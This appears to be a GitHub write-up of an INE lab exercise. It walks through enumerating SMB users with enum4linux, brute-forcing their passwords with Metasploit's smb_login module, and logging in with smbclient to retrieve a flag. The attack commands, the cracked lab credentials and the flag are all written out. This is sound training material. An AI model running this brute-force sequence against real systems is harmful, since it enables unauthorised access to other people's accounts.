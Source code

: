 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use enumeration and brute-force attacks to obtain SMB credentials. Then, access the authenticated share to extract a hidden flag.

---

## Tools Used

- `enum4linux` – for user enumeration
- `Metasploit` – for brute force with SMB login module
- `smbclient` – for accessing SMB shares

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Enumerate Users with `enum4linux`

We start by using `enum4linux` to enumerate valid users on the SMB service.

```bash
enum4linux -a target.ine.local
```
The tool successfully identified local users:
- `josh`
- `bob`
- `nancy`
- `alice`

### 🔹 Step : Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 1](./1.png)

### 🔹 Step 3: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 2](./2.png)

### 🔹 Step 4: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 3](./3.png)

### 🔹 Step 5: Valid Credentials Found
```yaml
josh : purple
```
![Step 4](./4.png)

### 🔹 Step 6: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 5](./5.png)

### 🔹 Step 7: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 6](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
